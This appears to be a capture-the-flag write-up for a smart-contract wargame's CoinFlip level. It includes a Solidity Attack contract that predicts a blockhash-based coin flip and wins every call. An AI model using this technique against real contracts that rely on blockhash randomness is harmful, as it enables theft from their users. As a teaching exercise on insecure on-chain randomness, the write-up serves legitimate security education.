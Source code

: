 # Task :
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

# Solution :

We write another contract called Attack that always wins in the CoinFlip contract 

```shell
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
  CoinFlip flip = CoinFlip(0xa98e328f61f046B4497FBA8A53a37D4e06d67Cdd);

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
  /**
  since it says side==_guess 
  we can use side as our parameter in the attack contract to get it right every single time*/
  
    flip.flip(side);
  }

}

```

Attack has all the calculations of CoinFlip but passes "side" as its parameter instead of "_guess" resulting in a win everytime its called
